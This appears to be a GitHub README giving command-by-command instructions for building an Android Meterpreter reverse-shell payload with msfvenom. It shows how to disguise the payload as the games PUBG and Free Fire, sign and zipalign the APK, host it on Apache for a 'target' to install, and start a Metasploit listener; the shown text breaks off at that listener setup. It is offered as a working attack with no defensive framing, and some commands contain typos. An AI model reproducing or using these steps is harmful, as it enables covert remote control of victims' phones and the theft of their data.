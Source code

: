 # Metasploit-Android-Payload
All commands and Tools 
/**Create a payloads for android help to Metasploit Framework**/

For Linux ----------->>>>>>>>>>>>>>>>>>>>>>

sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=your ip LPORT=4444 R> apk name(pubg.apk)


comment -->>//This is for only for local Area Network
 //lets us for make signed application for properly installed in android

sudo  keytool -genkey -v -keystore key.keystore -alias any name(professor) -keyalg RSA -keysize 2048 -calidity 10000
//then ask to you a password enter and some question you put the answer somthing you want

# sudo jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore pubg.apk professor 


//then verify the application

 sudo jarsigner -verify -verbose -certs pubg.apk

//then optimize the apk with help zipalign

//enter command for zipalign tool
 sudo apt-get instal zipalign 

sudo zipalign -v 4 pubg.apk freefire.apk(//this is a new application name this applicatio you send your target) 

//you send and install this freefire apk on target android device

// you can also send the application from apache server

//copy this apk in /var/www/html/share/   and start apache server for start type the command : sudo service apache2 start

//lets start our meterpreter lisner before installng

msfconsole 
use exploit/multi/handler 
show options 

                                                                                                                                                       1,1           Top
